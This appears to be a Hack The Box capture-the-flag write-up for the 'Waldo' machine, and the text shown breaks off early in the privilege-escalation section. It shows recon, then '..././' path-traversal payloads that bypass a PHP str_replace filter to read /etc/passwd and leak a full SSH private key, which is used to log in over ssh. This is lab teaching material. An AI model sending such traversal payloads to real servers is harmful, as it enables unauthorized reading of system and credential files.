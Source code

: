 ```yaml
---
layout: menu
title: "HTB Waldo"
description: "10.10.10.87 | 30 pts"
header-img: "boxes/screenshots/14_waldo/waldo.png"
tags: [hackthebox, htb, boot2root, writeup, linux, php, str_replace, ssh, private key, private key authentication, identity file, linux capabilities, capabilities, sbin, getcap, waldo]
---
```


# HTB Waldo (10.10.10.87) MACHINE WRITE-UP

### TABLE OF CONTENTS
y
* [PART 1 : INITIAL RECON](#part-1--initial-recon)
* [PART 2 : PORT ENUMERATION](#part-2--port-enumeration)
  * [TCP PORT 80 (http)](#tcp-port-80-http)
* [PART 3 : EXPLOITATION](#part-3--exploitation)
* [PART 4 : GENERATE USER SHELL](#part-4--generate-user-shell)
* [PART 5 : LATERAL MOVEMENT (nobody -&gt; monitor)](#part-5--lateral-movement-nobody---monitor)
* [PART 6 : PRIVILEGE ESCALATION (monitor -&gt; root)](#part-6--privilege-escalation-monitor---root)

---

## PART 1 : INITIAL RECON

```console
$ nmap --min-rate 1000 -p- -v 10.10.10.87
  
  PORT   STATE SERVICE
  22/tcp open  ssh
  80/tcp open  http

$ nmap -p 22,80 -sC -sV -v 10.10.10.87

  PORT   STATE SERVICE VERSION
  22/tcp open  ssh     OpenSSH 7.5 (protocol 2.0)
  | ssh-hostkey: 
  |   2048 c4:ff:81:aa:ac:df:66:9e:da:e1:c8:78:00:ab:32:9e (RSA)
  |   256 b3:e7:54:6a:16:bd:c9:29:1f:4a:8c:cd:4c:01:24:27 (ECDSA)
  |_  256 38:64:ac:57:56:44:d5:69:de:74:a8:88:dc:a0:b4:fd (ED25519)
  80/tcp open  http    nginx 1.12.2
  | http-methods: 
  |_  Supported Methods: GET HEAD POST
  |_http-server-header: nginx/1.12.2
  | http-title: List Manager
  |_Requested resource was /list.html
  |_http-trane-info: Problem with XML parsing of /evox/about

```

---

## PART 2 : PORT ENUMERATION

### TCP PORT 80 (http)

- __`http://10.10.10.87`__:

  ![80 Landing Page](./screenshots/14_waldo/80_landing_page.png)

  __NOTE(S)__:
  - Opening the __List Manager__ makes a POST request to __`dirRead.php`__:
    ```pcap
    POST /dirRead.php HTTP/1.1
    Host: 10.10.10.87
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
    Accept: */*
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://10.10.10.87/list.html
    Content-type: application/x-www-form-urlencoded
    Content-Length: 13
    Connection: keep-alive
    
    path=./.list/
    ```

  - Opening a list makes a POST request to __`fileRead.php`__:
    ```pcap
    POST /fileRead.php HTTP/1.1
    Host: 10.10.10.87
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
    Accept: */*
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://10.10.10.87/list.html
    Content-type: application/x-www-form-urlencoded
    Content-Length: 18
    Connection: keep-alive

    file=./.list/list1
    ```

---

## PART 3 : EXPLOITATION

- Try reading the contents of __`dirRead.php`__:
  - __`POST /fileRead.php`__ | __`file=./dirRead.php`__:
    ```json
    {"file":"<?php\n\nif($_SERVER['REQUEST_METHOD'] === \"POST\"){\n\tif(isset($_POST['path'])){\n\t\theader('Content-type: application\/json');\n\t\t$_POST['path'] = str_replace( array(\"..\/\", \"..\\\"\"), \"\", $_POST['path']);\n\t\techo json_encode(scandir(\"\/var\/www\/html\/\" . $_POST['path']));\n\t}else{\n\t\theader('Content-type: application\/json');\n\t\techo '[false]';\n\t}\n}\n"}
    ```
    ```php
   <?php

    if($_SERVER['REQUEST_METHOD'] === "POST"){
    	if(isset($_POST['path'])){
    	    header('Content-type: application/json');
    	    $_POST['path'] = str_replace( array("../", "..\""), "", $_POST['path']);
            echo json_encode(scandir("/var/www/html/" . $_POST['path']));
    	}else{
    	    header('Content-type: application/json');
    	    echo '[false]';
    	}
    }
 
    ```
  - __`POST /fileRead.php`__ | __`file=./fileRead.php`__:
    ```json
    {"file":"<?php\n\n\nif($_SERVER['REQUEST_METHOD'] === \"POST\"){\n\t$fileContent['file'] = false;\n\theader('Content-Type: application\/json');\n\tif(isset($_POST['file'])){\n\t\theader('Content-Type: application\/json');\n\t\t$_POST['file'] = str_replace( array(\"..\/\", \"..\\\"\"), \"\", $_POST['file']);\n\t\tif(strpos($_POST['file'], \"user.txt\") === false){\n\t\t\t$file = fopen(\"\/var\/www\/html\/\" . $_POST['file'], \"r\");\n\t\t\t$fileContent['file'] = fread($file,filesize($_POST['file']));  \n\t\t\tfclose();\n\t\t}\n\t}\n\techo json_encode($fileContent);\n}\n"}
    ```
    ```php
    <?php
 
 
    if($_SERVER['REQUEST_METHOD'] === "POST"){
        $fileContent['file'] = false;
        header('Content-Type: application/json');
        if(isset($_POST['file'])){
            header('Content-Type: application/json');
            $_POST['file'] = str_replace( array("../", "..""), "", $_POST['file']);
            if(strpos($_POST['file'], "user.txt") === false){
                    $file = fopen("/var/www/html/" . $_POST['file'], "r");
                    $fileContent['file'] = fread($file,filesize($_POST['file']));
                    fclose();
            }
        }
        echo json_encode($fileContent);
    } 
    ```
    
  __NOTE(S)__:
  - The base directory being used by __`dirRead.php`__ and __`fileRead.php`__ is __`/var/www/html/`__.
  - Reading or listing files outside __`/var/www/html/`__ will not work since the requested directory or file path will just be appended to the base directory.
  - Backwards directory traversal are "avoided" by converting __`../`__ or __`.."`__ to an empty string.
  - This could be bypassed by requesting __`..././`__ which would be converted to __`../`__ since this and other functions like `preg_replace()` are not recursive.

>

- Enumerate files outside the __`/var/www/html/`__ directory:
  - __`POST /fileRead.php`__ | __`file=..././..././..././etc/passwd`__:
    ```json
    {"file":"root:x:0:0:root:\/root:\/bin\/ash\nbin:x:1:1:bin:\/bin:\/sbin\/nologin\ndaemon:x:2:2:daemon:\/sbin:\/sbin\/nologin\nadm:x:3:4:adm:\/var\/adm:\/sbin\/nologin\nlp:x:4:7:lp:\/var\/spool\/lpd:\/sbin\/nologin\nsync:x:5:0:sync:\/sbin:\/bin\/sync\nshutdown:x:6:0:shutdown:\/sbin:\/sbin\/shutdown\nhalt:x:7:0:halt:\/sbin:\/sbin\/halt\nmail:x:8:12:mail:\/var\/spool\/mail:\/sbin\/nologin\nnews:x:9:13:news:\/usr\/lib\/news:\/sbin\/nologin\nuucp:x:10:14:uucp:\/var\/spool\/uucppublic:\/sbin\/nologin\noperator:x:11:0:operator:\/root:\/bin\/sh\nman:x:13:15:man:\/usr\/man:\/sbin\/nologin\npostmaster:x:14:12:postmaster:\/var\/spool\/mail:\/sbin\/nologin\ncron:x:16:16:cron:\/var\/spool\/cron:\/sbin\/nologin\nftp:x:21:21::\/var\/lib\/ftp:\/sbin\/nologin\nsshd:x:22:22:sshd:\/dev\/null:\/sbin\/nologin\nat:x:25:25:at:\/var\/spool\/cron\/atjobs:\/sbin\/nologin\nsquid:x:31:31:Squid:\/var\/cache\/squid:\/sbin\/nologin\nxfs:x:33:33:X Font Server:\/etc\/X11\/fs:\/sbin\/nologin\ngames:x:35:35:games:\/usr\/games:\/sbin\/nologin\npostgres:x:70:70::\/var\/lib\/postgresql:\/bin\/sh\ncyrus:x:85:12::\/usr\/cyrus:\/sbin\/nologin\nvpopmail:x:89:89::\/var\/vpopmail:\/sbin\/nologin\nntp:x:123:123:NTP:\/var\/empty:\/sbin\/nologin\nsmmsp:x:209:209:smmsp:\/var\/spool\/mqueue:\/sbin\/nologin\nguest:x:405:100:guest:\/dev\/null:\/sbin\/nologin\nnobody:x:65534:65534:nobody:\/home\/nobody:\/bin\/sh\nnginx:x:100:101:nginx:\/var\/lib\/nginx:\/sbin\/nologin\n"}
    ```
    ```
    root:x:0:0:root:/root:/bin/ash
    ...omitted...
    operator:x:11:0:operator:/root:/bin/sh
    ...omitted...
    postgres:x:70:70::/var/lib/postgresql:/bin/sh
    ...omitted...
    nobody:x:65534:65534:nobody:/home/nobody:/bin/sh
    ...omitted...
    ```
  - __`POST /dirRead.php`__ | __`path=..././..././..././home/nobody/`__:
    ```php
    [".","..",".ash_history",".ssh",".viminfo","user.txt"]
    ```

---

## PART 4 : GENERATE USER SHELL

- Check for credentials or private keys in the system:
  - __`POST /dirRead.php`__ | __`path=..././..././..././home/nobody/.ssh/`__:
    ```php
    [".","..",".monitor","authorized_keys","known_hosts"]
    ```
  - __`POST /fileRead.php`__ | __`file=..././..././..././home/nobody/.ssh/.monitor`__:
    ```json
    {"file":"-----BEGIN RSA PRIVATE KEY-----\NMIIEOGIBAAKCAQEAS7SYTDE++NHAWB9E+NN3V5T1DP1TYHC+4O8D362L5NWF6CPL\NMR4JH6N4NCCDM1ZU+QB77LI8ZOVYMBTIEY4FM07X4PQT4ZENBFQKWKOCYV1TLW6F\N87S0FZBHYAIZGRNNELLHB1IZIJPDVJUBSXG6S2CXALE14CJ+PNEIRTSYMIQ1NJCS\NDGCC\/GNPW\/AANIN4VW9KSLLQIAEDJFCHY55SCJ5162Y9+I1XZQF8E9B12WVXIRVN\NO8PLGNFJVW6SHHMPJSUE9VJAIEH+N+5XKBC8\/6PCEOWQS9UJRKNZH9T1LJQ4FX1V\NVI93DAQ3BZ3DHIIWAWAFMQZG+JSTHSWOIWR73WIDAQABAOIBADHWL\/WDMUPEW6KU\NVMZHRU3GCJUZWBET0TNEJBL\/KXNWXR9B2I0DHWFG8IJW1LCU29NV8B+EHGP+BR\/6\NPKHMFP66350XYLNSQISHHIRMOSPYDGQVST4KBCP5VBTTDGC7RZF+EQZYEQFDRKW5\N8KUNPTTMNWWLPYYJLSJMSRSN4BQYT3VRKTYKJ9IGU2RRKGXRNDCAC9EXGRUEVJ3Q\N1H+7O8KGEPMKNEOGUGEJRN69HXYHFBEJ0WLLL8WORT9YUMMOX\/05QOOBL4KQXUM7\NVXI2YWU46+QTZTMEOKJOYLCGLYXDKG5ONDFDPBW3W8O6ULVFKV467M3ZB5YE8GES\NDVA3YLECGYEA7JK51MVUGSIFF6GKXSNB\/W2CZGE9TIXBWUQWEEIG0BMQQVX2ZWWO\NV0OG0X\/IROXACP6Z9WGPIC6FHVGJD\/4BNLTR+A\/LWQWFT1B6L03XDSYAIYIWI9XR\NXSB2SLNWP56A\/5TWTPOKFDBGCQRQHVUKWSHLYFOZGQA0ZTMNV71YKH0CGYEAWSSY\NQFFDAWRVVZJP26YF\/JNZAVLCAC5HMHO7EX5ISCVCX86MHQPEYAFCECZN2DFFOPQI\NYZHZGB9N6Z01YUEKQRKNO3TA6JYJ9OJAMF8GZWVUTPZN41KSND4MWETBED4BUAH1\N\/PACW\/+\/OYSH4BWKKNVHKNW36C+WMNOAX1FWQISCGYBYW\/IMNLA3DRM3CIAA32IU\NLROTP4QGAAMXPNCSMIPAGE6CRFVHIUOZ1SFNBV189Q8ZBM4PXQGKLLOJ8B33HDQ\/\NLNN2N1WYTIYEUGA\/QMDKOPB+TUFF1A5EZZZ0UR5WLLWA5NBEALDNOYTBK1P5N4KP\NW7UYNREX6DGOBT2MD+10CQKBGGVQLYUNE20K9QSHVZTU3E9Z1RL+6LLDMZTFC3G9\N1HLMBKDTJJJ\/XAJAZUIOF4RS\/INNKJ6+QYGKFAPRXXCPF9NACLQJAZGAMXW50AQT\NRJ1BHUCZZCUGQABTPC6VYJ\/HLLLZPIC05AIEHDDVTOPK\/0WUY64FDS0VCCAYMMDR\NX\/PLAOGAS6UHBCM5TWZHTL\/HDPROFAR3QKXWZ5XVAYKB90XGIPS5CWUGCCSVWQF2\NDVVNY8GKBM\/OENWHNTLWRTEJ5QDEAM40OJ\/MWCDC6KPV1LJXRW2R5MCH9ZGBNFLA\NW0IKCBUAM5XZGU\/YSKMSCBMNMA8A5NDRWGFEFE+VGDVPARIE0RO=\N-----END RSA PRIVATE KEY-----\N"}
    ```
    ```rsa
    -----BEGIN RSA PRIVATE KEY-----
    MIIEogIBAAKCAQEAs7sytDE++NHaWB9e+NN3V5t1DP1TYHc+4o8D362l5Nwf6Cpl
    mR4JH6n4Nccdm1ZU+qB77li8ZOvymBtIEY4Fm07X4Pqt4zeNBfqKWkOcyV1TLW6f
    87s0FZBhYAizGrNNeLLhB1IZIjpDVJUbSXG6s2cxAle14cj+pnEiRTsyMiq1nJCS
    dGCc/gNpW/AANIN4vW9KslLqiAEDJfchY55sCJ5162Y9+I1xzqF8e9b12wVXirvN
    o8PLGnFJVw6SHhmPJsue9vjAIeH+n+5Xkbc8/6pceowqs9ujRkNzH9T1lJq4Fx1V
    vi93Daq3bZ3dhIIWaWafmqzg+jSThSWOIwR73wIDAQABAoIBADHwl/wdmuPEW6kU
    vmzhRU3gcjuzwBET0TNejbL/KxNWXr9B2I0dHWfg8Ijw1Lcu29nv8b+ehGp+bR/6
    pKHMFp66350xylNSQishHIRMOSpydgQvst4kbCp5vbTTdgC7RZF+EqzYEQfDrKW5
    8KUNptTmnWWLPYyJLsjMsrsN4bqyT3vrkTykJ9iGU2RrKGxrndCAC9exgruevj3q
    1h+7o8kGEpmKnEOgUgEJrN69hxYHfbeJ0Wlll8Wort9yummox/05qoOBL4kQxUM7
    VxI2Ywu46+QTzTMeOKJoyLCGLyxDkg5ONdfDPBW3w8O6UlVfkv467M3ZB5ye8GeS
    dVa3yLECgYEA7jk51MvUGSIFF6GkXsNb/w2cZGe9TiXBWUqWEEig0bmQQVx2ZWWO
    v0og0X/iROXAcp6Z9WGpIc6FhVgJd/4bNlTR+A/lWQwFt1b6l03xdsyaIyIWi9xr
    xsb2sLNWP56A/5TWTpOkfDbGCQrqHvukWSHlYFOzgQa0ZtMnV71ykH0CgYEAwSSY
    qFfdAWrvVZjp26Yf/jnZavLCAC5hmho7eX5isCVcX86MHqpEYAFCecZN2dFFoPqI
    yzHzgb9N6Z01YUEKqrknO3tA6JYJ9ojaMF8GZWvUtPzN41ksnD4MwETBEd4bUaH1
    /pAcw/+/oYsh4BwkKnVHkNw36c+WmNoaX1FWqIsCgYBYw/IMnLa3drm3CIAa32iU
    LRotP4qGaAMXpncsMiPage6CrFVhiuoZ1SFNbv189q8zBm4PxQgklLOj8B33HDQ/
    lnN2n1WyTIyEuGA/qMdkoPB+TuFf1A5EzzZ0uR5WLlWa5nbEaLdNoYtBK1P5n4Kp
    w7uYnRex6DGobt2mD+10cQKBgGVQlyune20k9QsHvZTU3e9z1RL+6LlDmztFC3G9
    1HLmBkDTjjj/xAJAZuiOF4Rs/INnKJ6+QygKfApRxxCPF9NacLQJAZGAMxW50AqT
    rj1BhUCzZCUgQABtpC6vYj/HLLlzpiC05AIEhDdvToPK/0WuY64fds0VccAYmMDr
    X/PlAoGAS6UhbCm5TWZhtL/hdprOfar3QkXwZ5xvaykB90XgIps5CwUGCCsvwQf2
    DvVny8gKbM/OenwHnTlwRTEj5qdeAM40oj/mwCDc6kpV1lJXrW2R5mCH9zgbNFla
    W0iKCBUAm5xZgU/YskMsCBMNmA8A5ndRWGFEFE+VGDVPaRie0ro=
    -----END RSA PRIVATE KEY-----
    ```

- Save the private key then change its permissions:
  ```console
  $ chmod 400 .monitor
  ```

- Login via __`ssh`__ using the private key as the user, __`nobody`__:
  ```console
  $ ssh -i .monitor -l nobody 10.10.10.87

  $ id 
   
    uid=65534(nobody) gid=65534(nobody) groups=65534(nobody)

  $ cat user.txt

    3276........................9d24
  
  ```

---

## PART 5 : LATERAL MOVEMENT (nobody -> monitor)

- Re-examine the __`~/.ssh`__ directory:
  - __`authorized_keys`__:
    ```rsa
    ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCzuzK0MT740dpYH17403dXm3UM/VNgdz7ijwPfraXk3B/oKmWZHgk
    fqfg1xx2bVlT6oHvuWLxk6/KYG0gRjgWbTtfg+q3jN40F+opaQ5zJXVMtbp/zuzQVkGFgCLMas014suEHUhkiOkNUlR
    tJcbqzZzECV7XhyP6mcSJFOzIyKrWckJJ0YJz+A2lb8AA0g3i9b0qyUuqIAQMl9yFjnmwInnXrZj34jXHOoXx71vXbB
    VeKu82jw8sacUlXDpIeGY8my572+MAh4f6f7leRtzz/qlx6jCqz26NGQ3Mf1PWUmrgXHVW+L3cNqrdtnd2EghZpZp+a
    rOD6NJOFJY4jBHvf monitor@waldo
    ```
    __NOTE(S)__:
    - The private key from earlier seems to have been created for a user, __`monitor`__.
>
- Connect to __`monitor@waldo`__ via ssh using the __`nobody`__ terminal:
  ```console
  $ ssh -i ~/.ssh/.monitor monitor@waldo -t sh

  $ id 
  
    uid=1001(monitor) gid=1001(monitor) groups=1001(monitor)

  ```

---

## PART 6 : PRIVILEGE ESCALATION (monitor -> root)

- Enumerate the system:
  ```console
  $ echo $PATH
    
    /home/monitor/bin:/home/monitor/app-dev:/home/monitor/app-dev/v0.1

  $ ls -l ~/bin
  
    lrwxrwxrwx 1 root root  7 May  3  2018 ls -> /bin/ls
    lrwxrwxrwx 1 root root 13 May  3  2018 most -> /usr/bin/most
    lrwxrwxrwx 1 root root  7 May  3  2018 red -> /bin/ed
    lrwxrwxrwx 1 root root  9 May  3  2018 rnano -> /bin/nano

  $ getcap ~/bin/*

    bash: getcap: command not found

  ```
  __NOTE(S)__:
  - The only binaries to could be executed are the ones inside __`monitor`__'s home directory.
  - The binaries are __*symlinked*__ to the usual directories like __`/usr/bin/`__ and __`/bin`__.
  - The environment variable, __`PATH`__, enables binaries to be executed without calling their __absolute paths__.
  - The limitation could be overcome by actually calling a binary's absolute path or by exporting the other directories to the environment variable, __`PATH`__.
>
- Export the other paths to __`$PATH`__: 


